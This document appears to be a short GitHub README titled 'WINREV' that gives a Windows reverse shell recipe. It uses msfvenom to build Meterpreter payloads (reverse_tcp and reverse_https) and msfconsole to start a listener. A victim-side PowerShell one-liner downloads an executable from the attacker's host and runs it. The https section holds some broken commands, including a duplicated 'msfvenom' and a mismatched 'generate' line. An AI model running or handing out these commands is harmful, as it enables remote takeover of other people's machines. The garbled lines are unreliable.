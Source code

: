 # WINREV

Reverse Shell for Windows
Creator: Dhayalan

## On attacker

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT> -f exe > <FILENAME>`

`msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST <ATTACKER_IP>; set LPORT <ATTACKER_PORT>; exploit'`


## On victim

`powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://<ATTACKER_IP>/<FILENAME>', 'C:\Windows\Temp\<FILENAME>'); Start-Process 'C:\Windows\Temp\<FILENAME>'"`

## For https

### MsfVenom
```bash
msfvenom -msfvenom -p windows/meterpreter/reverse_https LHOST=<tu dirección IP> LPORT=<puerto> -f exe -o payload.exe
```

### MsfConsole
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST <tu dirección IP>
set LPORT <puerto>
set EnableStageEncoding true
set EnableUnicodeEncoding true
generate -t <ruta del certificado PEM>
```
